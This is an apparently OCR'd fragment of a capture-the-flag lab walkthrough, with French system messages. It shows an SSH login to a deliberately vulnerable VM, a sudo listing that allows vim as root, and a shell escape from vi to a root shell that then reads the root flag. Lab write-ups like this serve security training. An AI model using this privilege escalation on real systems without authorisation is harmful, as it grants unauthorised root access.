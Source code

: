 

└─$ ssh jmkdurand@192.168.110.54 -i key



jmkdurand@vulnvm:~$ sudo -l
Entrées par défaut pour jmkdurand sur vulnvm :
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

L'utilisateur jmkdurand peut utiliser les commandes suivantes sur vulnvm :
    (ALL) NOPASSWD: /usr/sbin/apache2ctl, /usr/bin/vim /etc/apache2/*


jmkdurand@vulnvm:~$ sudo vi  /etc/apache2/sites-available/000-default.conf 
:/bin/sh
root@vulnvm:/home/jmkdurand# id
uid=0(root) gid=0(root) groupes=0(root)
root@vulnvm:~# cat /root/root.txt 
LPM{QnJhdm8gw6Agdm91cyEK}
